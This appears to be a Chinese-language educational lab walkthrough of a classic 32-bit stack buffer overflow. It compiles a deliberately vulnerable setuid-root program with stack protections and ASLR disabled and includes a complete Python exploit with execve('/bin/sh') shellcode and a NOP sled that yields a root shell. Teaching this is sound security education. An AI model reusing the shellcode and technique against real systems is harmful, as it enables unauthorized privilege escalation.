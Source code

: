 # 栈的缓冲区溢出攻击

## 1. 关闭地址空间随机化

这一步是为了获取固定的栈地址，方便后续的攻击。

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

## 2. 准备有漏洞的程序

```c
// stack.c

#include "stdio.h"
#include "stdlib.h"
#include "string.h"

int foo(char *str) {
    char buffer[100];

	strcpy(buffer, str);
	return 1;
} 

int main(int argc, char **argv) {
	char str[400];
	FILE *badfile;

	badfile = fopen("badfile", "r");
	fread(str, sizeof(char), 300, badfile);
	foo(str);

	printf("Returned Properly\n");
	return 1;
}
```

对其进行编译，并设置为setuid程序：

```bash
# 使gcc支持32位编译
sudo apt-get install gcc-multilib
# 编译stack程序(默认为64位)，编译32位需加-m32
gcc -o stack_32 -m32 -z execstack -fno-stack-protector stack.c
sudo chown root stack_32
sudo chmod 4755 stack_32
```

其中，`-z execstack`设置栈为可执行，`-fno-stack-protector`关闭StackGuard机制。

## 3. 通过调试寻找注入地址

```bash
# 创建badfile（badfile不存在会导致segmentation fault）
touch badfile
# 为了方便调试时断点设置，编译一个含有符号信息的stack
gcc -g -o stack_32_dbg -z execstack -fno-stack-protector stack.c
# 使用gdb进行调试
gdb stack_32_dbg
# 对foo函数设置断点
b foo
# 运行程序，程序会在断点处停止
r
# 打印ebp寄存器和buffer变量的地址，并计算差值
p $ebp
p &buffer
```

注意：
1. 对于`stack_32`，帧指针为`$ebp`；对于`stack_64`，帧指针为`$rbp`。
2. **在SEED VM更新为Ubuntu 20.04之后，上述gdb的调试行为发生了一些变动**。在以前的Ubuntu 16.04中，对`foo`函数下断点然后run，此时的`$ebp`就是`foo`函数的帧指针。但在Ubuntu 20.04中，此时的`$ebp`却还是`main`函数的帧指针，因而有以下两种方法获取正确的`foo`函数`$ebp`：

```bash
# 方法一：
# 仍然对foo函数下断点
b foo
# 运行程序
r
# next步过一次，或者stepi步进三条机器指令
next # stepi 几次取决于你在gdb的汇编code区域观察到 push ebp; mov ebp, esp; 执行完毕
# 此时打印ebp即为正确的foo帧指针地址
p $ebp
...

# 方法二：
# 对foo函数里的strcpy所在行下断点
b stack.c:10
# 运行程序
r
# 获取正确的foo帧指针地址
p $ebp
...
```

## 4. 生成badfile

```python
#!/usr/bin/python3

import sys

shellcode = (
	"\x31\xc0" 	# xorl %eax,%eax
	"\x50" 	   	# %eax
	"\x68""//sh"	# pushl $0x68732f2f
	"\x68""/bin"	# pushl $0x6e69622f
	"\x89\xe3"	# movl %esp,%ebx
	"\x50"		# pushl %eax
	"\x53"		# pushl %ebx
	"\x89\xe1"	# movl %esp,%ecx
	"\x99"		# cdq
	"\xb0\x0b"	# movb $0x0b,%al
	"\xcd\x80"	# int $0x80
).encode('latin-1')

# fill with nop
content = bytearray(0x90 for i in range(300))

# put the shellcode
start = 300 - len(shellcode)
content[start:] = shellcode

# set the entry point of the shellcode
ret = 0xffffcfe8 + 120
content[112:116] = (ret).to_bytes(4, byteorder='little')

with open('badfile', 'wb') as wb:
	wb.write(content)
```

注意：
1. 上述代码中 `ret = 0xffffcfe8 + 120`的`0xffffcfe8`替换为你自己调试时的`p $ebp`值。
2. return address为`$ebp+4`，又因为是32位程序，所以return address对应`content[112:116]`（其中`112 = $ebp-&buffer + 4`）
3. 由于gdb可能会在调试过程中向栈中push一些其他的数据从而导致`$ebp`位于更深的位置，即在实际执行`stack`程序时，`$ebp`的地址可能要高于我们在gdb中看到的值，所以`ret = $ebp + 8`可行（因为有NOP Sled存在）而`ret = $gdb_ebp + 8`不可行。因此我们一般取一个稍大的偏移值，比如`120`或`200`。大家也可以在执行失败时尝试不同的偏移值。但需要注意的是，`ret`地址中不能包含0，否则会导致`strcpy`读取到0之后提前返回，无法将后续的内容拷贝到`buffer`。

对上述文件增加执行权限后执行，生成badfile：

```bash
chmod u+x exploit.py
./exploit.py
```
这时生成了badfile。

## 5. 执行攻击

与之前实验类似，首先替换掉含有保护机制的shell。

```bash
sudo ln -sf /bin/zsh /bin/sh
```

执行漏洞程序获得root shell。

```bash
./stack
id
```

## 6. 思考

如何栈溢出攻击64位的stack程序呢？